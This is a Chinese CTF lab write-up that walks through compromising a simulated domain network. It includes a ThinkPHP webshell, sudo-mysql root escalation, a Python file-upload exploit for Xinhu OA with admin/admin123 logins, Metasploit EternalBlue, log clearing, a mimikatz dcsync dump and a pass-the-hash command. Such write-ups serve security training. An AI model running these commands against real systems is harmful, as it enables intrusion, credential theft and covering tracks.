

参考文章
https://9anux.org/2024/08/01/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83Initial%E8%AF%A6%E8%A7%A3/
菜鸡第一个通关的靶场Orz
FLAG1
fscan扫一下
./fscan.exe -h 39.99.139.119

直接用thinkphpgui写马连蚁剑
先用vshell上线
读flag需要提权
peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)
传个linpeas扫一下
./linpeas_linux_amd64 > output.txt
在历史文件中找到疑似读flag的命令
其实这就是一个简单的sudo提权
渗透测试：Linux提权精讲（三）之sudo方法第三期_nmap sudo 提权-CSDN博客
mysql 是配置了 sudo 免密使用的，可以使用 mysql 提权，通过mysql执行命令来读flag
payload:
sudo mysql -e '\! /bin/sh'
cat /root/flag/flag*
flag01: flag{60b53231-
接下来搭代理
查内网ip
接着传一个fscan扫一下内网
fs -h 172.22.1.0/24 -nobr -nopoc -hn 172.22.1.15
收集到的信息
172.22.1.2:DC域控
172.22.1.21:Windows的机器并且存在MS17-010 漏洞
172.22.1.18:信呼OA办公系统
FLAG2
先看信呼
弱口令成功登入admin/admin123
信呼协同办公系统v2.2.8存在文件上传漏洞
[Awesome-POC/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md)
1import requests
2
3session = requests.session()
4url_pre = 'http://172.22.1.18/'
5url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
6url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
7# url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=<ID>'
8data1 = {
9 'rempass': '0',
10 'jmpass': 'false',
11 'device': '1625884034525',
12 'ltype': '0',
13 'adminuser': 'YWRtaW4=',
14 'adminpass': 'YWRtaW4xMjM=',
15 'yanzm': ''
16}
17
18r = session.post(url1, data=data1)
19r = session.post(url2, files={'file': open('1.php', 'r')})
20filepath = str(r.json()['filepath'])
21filepath = "/" + filepath.split('.uptemp')[0] + '.php'
22print(filepath)
23id = r.json()['id']
24url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
25r = session.get(url3)
26r = session.get(url_pre + filepath + "?1=system('dir');")
27print(r.text)
写马之后直接读flag就行
flag02: 2ce3-4813-87d4-
FLAG3
永恒之蓝可以用msf打
现在kali上用proxychains4简单配个代理
proxychains4 msfconsole
search ms17-010
有四个不同的模块
这里使用第一个模块，因为利用范围比较广
use exploit/windows/smb/ms17_010_eternalblue # 选择使用的模块
set payload windows/x64/meterpreter/bind_tcp_uuid # 设置payload，可以通过show payloads查看
set RHOSTS 172.22.1.21 # 设置靶机的ip
exploit # 发起攻击

成功了
meterpreter > screenshot # 捕获屏幕
meterpreter > upload hello.txt c:// #上传文件
meterpreter > download d://1.txt # 下载文件
meterpreter > shell # 获取cmd
meterpreter > clearev # 清除日志
load kiwi # 调用mimikatz模块
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit # 导出域内所有用户的信息(包括哈希值)
拿到Administrator 用户的 hash，接着使用 crackmapexec 来进行哈希传递攻击，来实现 DC域控 上的任意命令执行
proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
拿到最后一个flag